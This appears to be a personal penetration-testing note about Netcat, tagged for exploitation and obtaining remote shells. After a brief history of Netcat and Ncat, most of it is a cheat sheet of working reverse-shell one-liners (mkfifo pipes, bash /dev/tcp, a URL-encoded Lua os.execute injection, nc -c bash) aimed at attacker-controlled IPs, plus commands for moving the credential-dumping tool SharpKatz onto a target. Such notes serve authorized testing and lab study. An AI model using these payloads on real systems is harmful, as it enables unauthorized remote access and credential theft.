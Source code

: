 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer

1. Setup listener 

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

2. Send file

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
